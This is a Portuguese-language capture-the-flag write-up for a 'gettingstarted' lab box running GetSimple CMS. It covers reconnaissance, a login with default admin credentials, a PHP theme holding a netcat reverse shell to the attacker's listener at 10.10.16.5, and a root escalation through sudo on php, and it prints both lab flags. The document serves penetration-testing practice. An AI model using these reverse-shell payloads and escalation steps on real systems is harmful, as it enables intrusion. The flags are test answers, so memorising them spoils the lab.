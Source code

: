 # Temos um teste agora :3, esssas são as flags necessárias:

TARGET = 10.129.178.56

## Spawn the target, gain a foothold and submit the contents of the user.txt flag.

> nmap -sV --open 10.129.178.56
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

> whatweb 10.129.178.56
http://10.129.178.56 [200 OK] AddThis, Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.178.56], Script[text/javascript], Title[Welcome to GetSimple! - gettingstarted]

* Nada no código fonte, está sendo execute um GetSimple, será um plugin? 
Vamos para o gobuster

> gobuster dir -u http://10.129.178.56/ -w /usr/share/dirb/wordlists/common.txt
admin/ -> Pag admin
backups/ -> nada
data/ -> 
http://10.129.178.56/data/cache/2a4c6447379fba09620ba05582eb61af.txt
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
versão do GetSimple -> 3.3.15
user -> admin
email -> admin@gettingstarted.com
password -> admin

plugins/
InnovationPlugin.php
anonymous_data.pho

robots.txt
/server-status
/sitemap.xml
/theme

Podemos seguir com a busca do exploit para o GetSimple
Existe a possibilidade de colocar um tema em php e ele recebe scripts php

<?php system('rm /tmp/f; mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 1234 >/tmp/f') ?>

conseguimos o primeiro shell
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> export TERM=xterm
Precisamos encontrar o user.txt flag
> sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php

### Primeira flag: 7002d65b149b0a4d19132a66feed21d8

##  After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.

Preciso escalar os privilégios
<?php system('rm /tmp/f; mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 6666 >/tmp/f') ?>

Podemos utilizar esse script, pegar o binário dele e coloca esse binário como substituo do php, ou então executar o php passando o script que foi criado.

> sudo /usr/bin/php system('nc 10.10.16.5 6666')

<?php system('rm /tmp/g; mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.16.5 6666 >/tmp/g') ?>

<?php system('/bin/sh')?>

> sudo /usr/bin/php script2.php

### Segunda flag: f1fba6e9f71efb2630e6e34da6387842